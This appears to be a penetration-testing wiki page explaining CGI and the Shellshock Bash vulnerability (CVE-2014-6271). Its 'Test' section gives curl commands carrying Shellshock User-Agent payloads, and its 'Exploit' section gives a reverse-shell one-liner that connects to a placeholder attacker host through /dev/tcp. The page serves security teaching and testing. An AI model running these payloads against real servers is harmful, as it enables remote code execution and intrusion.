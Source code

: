 ```yaml
---
menu: CGI
title: CGI - Web Applications Pentesting
---
```


# Common Gateway Interface

Common Gateway Interface (CGI) is an interface specification for web servers to execute command-line interface (CLI) programs. These programs also known as CGI scripts or simply CGIs, are commonly executed at the time a request is made and return dynamically generated HTML content.

Most servers expect CGI scripts to reside in a special directory, usually called `cgi-bin`, to handle the requests correctly and execute the program instead of returning the file content.  [^oreilly-cgi]

## Shellshock

Shellshock ([CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)) is an Arbitrary Code Execution (ACE) vulnerability that affects Linux and Unix command-line shell, aka the GNU Bourne Again Shell.

GNU Bourne Again Shell, or Bash, is an interpreter that allows users to send commands on Unix and Linux systems, typically by connecting over SSH or Telnet but it can also operate as a parser for CGI scripts.

{{<note>}}
In addition to CGI-based web servers, it also affects OpenSSH servers, DHCP clients, Qmail servers and restricted shells of the IBM Hardware Management Console (IBM HMC)
{{</note>}}

The vulnerability occurs when the variables sent to the server, are passed and interpreted by Bash. This variable involves a specially crafted environment variable containing an exported function definition, followed by arbitrary commands. Bash incorrectly executes the trailing commands when it imports the function.


```
Environment variable with
function definition                          Expected command
         +                                          +
         |                                          |
+--------+--------+ +----------------+ +------------+--------------+
| env x='() { :;};| |echo vulnerable'| |bash -c "echo Real command"|
+-----------------+ +-------+--------+ +---------------------------+
                            |
                            +
            Arbitrary command executed by Bash
```

### Test

#### Reflected

```sh
curl -fs -H "user-agent: () { :; }; echo; echo 'vulnerable'" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable | grep vulnerable
```

#### Blind

```sh
curl -fs -H "user-agent: () { :; }; /bin/bash -c 'sleep 5'" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable
```

{{<details "Parameters">}}
- `-f`: fail silently on HTTP errors.
- `-s`: silent mode.
- `-H`: pass custom header(s) to server.
{{</details>}}

### Exploit

```sh
curl -fs -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}} 0>&1" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable
```

## Further Reading

- [Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)
- [Wikipedia - Shellshock (software bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

[^oreilly-cgi]: Gundavaram, Shishir. “The Common Gateway Interface (CGI).” O’Reilly Media - Technology and Business Training, O’Reilly & Associates, Inc., https://www.oreilly.com/openbook/cgi/ch01_01.html.
